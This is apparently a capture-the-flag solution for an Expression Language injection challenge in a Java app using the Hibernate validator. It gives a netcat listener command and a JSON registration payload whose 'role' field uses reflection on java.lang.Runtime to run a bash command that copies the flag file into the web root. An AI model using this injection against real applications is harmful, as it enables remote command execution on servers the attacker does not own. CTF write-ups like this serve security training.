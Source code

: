 ## EL Injection Blind RCE Challenge
## Download the source code and look into how the Hibernate validator is being used

## Solution
1. Send the POST request to /userRegistration endpoint with the required value in body to create an account
2. Start nc on port 4444 by running `nc -nlvp 4444`
3. Send the below payload in the body to retrieve the flag
``` 
{
"userId":"1",
"firstName":"test",
"lastName":"test",
"email":"test",
"password":"test",
"role":"${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('bash -c cat$IFS/flag$IFS>/var/www/flag.txt')}"

}
```
